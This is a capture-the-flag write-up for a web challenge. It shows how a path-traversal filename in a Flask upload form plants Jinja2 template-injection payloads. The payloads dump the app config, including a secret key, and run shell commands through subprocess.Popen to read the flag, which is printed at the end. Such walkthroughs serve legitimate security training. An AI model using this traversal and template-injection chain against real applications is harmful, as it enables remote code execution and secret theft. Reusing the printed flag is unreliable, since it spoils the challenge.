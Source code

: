 # Blame it on the Temp

## Challenge
* Category: Web Security
* Points: 150

We had our intern create this awesome new secure file storage app! http://challenge.acictf.com:44940

### Hints
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
* https://werkzeug.palletsprojects.com/en/0.16.x/utils/#werkzeug.utils.secure_filename


## Solution

### Tools
* Burp Suite


Open a web browser and configure it to use Burp Suite. [Here](https://linuxconfig.org/learn-burp-suite-on-kali-linux-part-1) is a tutorial on setting up Burp Suite with a browser on a Kali machine. Once setup, go to http://challenge.acictf.com:44940 and see what we are working with. Notice there are two forms on the page, meaning both of them make `POST` requests to the web application. This will be useful when performing injects later.
  * The `Upload` button where you upload a file is one of the forms
  * The `UPDATE` buttom where you can change the site TEMPLATE is the other form

Reading up on the jinja template injection link above, we know that `{{7*'7'}}` is a good test for injections. We will start with a `index.html` that contains `{{7*'7'}}`.

Select our index.html and click uplaod. We then see our INDEX.HTML on the page. Open it, and we see our template above. So our jinja inject did not work... yet.

Lets look at The `TEMPLATE` dropdown. It has `Default` and `Non-Default` as options. This is where knowledge of web-application directory structure comes in handy. Check out these two links
  * [Django web app directory structure](https://django-project-skeleton.readthedocs.io/en/latest/structure.html)
  * [Flask web app directory structure](https://exploreflask.com/en/latest/organizing.html#package)

Both of the platforms contain a `templates/` in the root directory of the web application. We are going to see if our app follows the same structure by using directory traversal when we upload (POST) our index.html template. Here is a good resource on [web application directory traversal attack](https://owasp.org/www-community/attacks/Path_Traversal). That may have been a lot to digest, let me break it down.

#### Steps
  * Upload our index.html that contains a jinja template inject (ie `{{7*'7'}}`)
  * Use Burp Suite to intercept the `POST` and change the filename to include a web application directory traversal attack
  * Check the `TEMPLATES` dropdown on the page for our new template
  * Select our `test#` template and see if the jinja inject worked


Ok. Upload our `index.html` again, but this time in Burp Suite modify the `filename` parameter.

```
filename="../../templates/test1/index.html"
```

Huzzah! We see a new TEMPLATE `test1` is available.

![template](images/template.png)

Go ahead and select it and we see our jinja template injection `{{7*'7'}}` worked!

![test_inject](images/test_inject.png)


Ok. Lets try some of the other injects on the [github page from Hints](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) to see if we can grab some configs and gain more information about the web application.

Put `{{config}}` into your index.html file and upload again. You may need to increment your directory names like `test2`

Excellent! We returned a bunch of config information.
```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'geYUcdwQr6QDNQQUkEpgIaQJM7HcfSwl', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'ALLOWED_EXTENSIONS': {'html', 'gif', 'pdf', 'png', 'jpg', 'jpeg', 'txt'}, 'APP_NAME': 'Super File Uploader', 'SQLALCHEMY_DATABASE_URI': 'sqlite:////opt/problems/blame-it-on-the-temp_1_cf71d51b80cc24fae6b96115fd06a288/app/app.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'TEMPLATE': 'Default', 'UPLOAD_FOLDER': '/opt/problems/blame-it-on-the-temp_1_cf71d51b80cc24fae6b96115fd06a288/app/static/uploads/', 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Since django and flask both run on python, lets try to return a list of python classes to see what we are working with.
Put `{{ [].__class__.__base__.__subclasses__() }}` into your index.html and directory traversal to `test3`

Awesome, the output was a lot of python class information. You can see them in the text document located [here](https://raw.githubusercontent.com/nkleck/CyberStakes2020/master/Web_Security/150_Blame_it_on_the_Temp/classes.txt)

Lets take note of one class in particular `<class 'subprocess.Popen'>`. Reading up on [python subprocess module](https://docs.python.org/3/library/subprocess.html), you can determine that we can run a bash command using this python class. So our goal now is to run a bash command using our jinja template inject.

Lets give it a try with `ls -alh` in order to list the contents of the directory. We will do this by getting the index number of the subprocess.Popen class and this jinja payload. ``{{''.__class__.mro()[1].__subclasses__()[INDEX NUMBER]('ls -alh',shell=True,stdout=-1).communicate()[0].strip()}}``. I already did the work, and my index number is 287.

Lets give this a try and put `{{''.__class__.mro()[1].__subclasses__()[287]('ls -alh',shell=True,stdout=-1).communicate()[0].strip()}}` into our `index.html` file and directory traversal to `test5`

Cool. so it gave us the following:
```
b'total 100K\ndrwxr-x--- 4 hacksports blame-it-on-the-temp_1 4.0K Apr 23 14:55 .\nd-wx--x--x 702 root root 72K May 6 19:05 ..\ndrwxr-xr-x 4 root root 4.0K Apr 23 14:55 app\ndrwxr-xr-x 3 root root 4.0K Apr 23 14:55 migrations\n-rw-rw-r-- 1 hacksports hacksports 33 Apr 23 14:55 readme.flag\n-rw-rw-r-- 1 hacksports hacksports 19 Apr 23 14:55 server.py\n-rwxr-sr-x 1 hacksports blame-it-on-the-temp_1 105 Apr 23 14:55 xinet_startup.sh'
```

You can see a file in there called `readme.flag`.  Lets call the subprocess again with `cat readme.flag` as the payload.

Go ahead and put `{{''.__class__.mro()[1].__subclasses__()[287]('cat readme.flag',shell=True,stdout=-1).communicate()[0].strip()}}` into your `index.html` and upload it to `test6` directory.

Boom! There's our flag `b'ACI{ffbb3f2286cad7a4b85ae7250c5}'`


**ACI{ffbb3f2286cad7a4b85ae7250c5}**
